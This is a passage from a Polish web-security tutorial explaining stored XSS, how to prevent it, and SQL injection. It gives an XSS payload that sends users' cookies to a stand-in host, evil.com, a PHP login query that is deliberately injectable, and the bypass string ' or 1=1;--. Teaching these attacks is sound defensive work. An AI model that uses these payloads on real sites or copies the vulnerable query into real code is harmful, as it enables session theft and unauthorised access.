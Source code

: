 ### Zapisany (ang. Stored)
Polega on na tym, że złośliwy kod jest zapisywany np. w bazie danych i za każdym razem, gdy jakiś użytkownik otworzy stronę
wykona się ten kod.

Przykładem może być np. strona z newsami, gdzie użytkownicy dodają posty, a ich zawartość może być dowolnym kodem HTML.

W obu przypadkach wstrzykiwanym kodem może być np. dodanie obrazka, którego URL-em będzie atakowana strona razem
z ciasteczkami użytkownika np.:

{% highlight html %}
<img src="x" onerror="this.src='http://evil.com/cookie?' + encodeURIComponent(document.cookies);"/>
{% endhighlight %}

### Jak się zabezpieczyć
Aby zapobiec atakom tylko XSS, należy filtrować dane od użytkownika oraz bazy danych lub je odpowiednio formatować
(ang. escape), jeśli są wstawiane do naszej strony. Możemy np. skorzystać z jakieś frameworka, który zrobi to za nas.
Często systemy szablonów nie pozwalają na wstawianie kodu HTML ze zmiennej i trzeba użyć specjalnej komendy lub filtra,
aby była taka możliwość.

### Co dalej
Polecam dwa artykuły, w języku angielskim, na stronach OWASP (czyli Open Web Application Security Project)
[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) oraz
[XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet),
czyli odpowiednio obchodzenie i zabezpieczanie aplikacji.

## 2. SQL Injection

Ta podatność polega na tym, że jeśli używamy danych od użytkownika, w zapytaniu SQL bez odpowiedniego ich formatowania,
złośliwy użytkownik może wstrzyknąć swój kod SQL, który wykona się razem z tym naszym.

Na przykład nasza aplikacja może wywoływać takie zapytanie (kod php):

{% highlight php startinline=true %}
$query = "SELECT * FROM users WHERE username = '$username' and password = '$password'";
{% endhighlight %}

jeśli zmienna `$username` lub `$password` pochodzi od użytkownika, np. z URLa lub zapytania POST, to jest możliwość przekazać
w niej, zamiast hasła, kod SQL np. `' or 1=1;--`. Wynikowe zapytanie po wstawieniu naszego hasła będzie wyglądało następująco:

{% highlight sql %}
SELECT * FROM users WHERE username = 'name' and password = '' or 1=1;--'
{% endhighlight %}
